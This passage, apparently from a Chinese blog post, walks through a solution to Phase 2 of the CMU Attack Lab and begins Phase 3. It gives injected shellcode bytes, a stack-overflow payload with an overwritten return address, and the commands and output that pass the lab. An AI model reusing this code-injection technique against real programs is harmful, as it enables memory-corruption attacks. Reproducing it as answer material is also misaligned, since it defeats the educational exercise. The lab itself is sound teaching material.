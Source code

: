为什么要这么写？可以参见下图：

![phase2](https://cdn.arthals.ink/bed/2024/01/phase2-858804ac8f3d2ebe1844e8217815b6d1.png)

然后依次运行

```bash
gcc -c p2.s # 编译
objdump -d p2.o > p2.byte # 翻译为字节码
```

得到 `p2.byte`：

```asm

p2.o:     file format elf64-x86-64


Disasm of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 10 76 a6 11 	mov    $0x11a67610,%rdi
   7:	68 58 1f 40 00       	push   $0x401f58
   c:	c3                   	ret

```

组合我们的代码：

```asm
48 c7 c7 10 76 a6 11 68
58 1f 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
88 46 63 55
```

依次运行：

```bash
./hex2raw < p2.txt > p2a.txt
./ctarget -i p2a.txt
```

于是大功告成！

```text
Cookie: 0x11a67610
Touch2!: You called touch2(0x11a67610)
Valid solution for level 2 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

## Phase 3

简单地翻译一下 `hexmatch`

- 首先分配一个长度为 110 的字符数组，然后再这 110 长度的数组中，随机选择一个小于 100 的起始位置 `s`
- 将不能修改的 `cookie`（也就是 hexmatch 中的 val）按照 hex 十六进制下，首先转为对应的 ASCII 码，然后复制 8 个到 `s` 起始的 8 个字节。
- 比较 `s` 和你修改后，存在 `%rdi` 的参数 `sval`（字符数组首地址），比较 9 个字符（含结尾 `\0`）
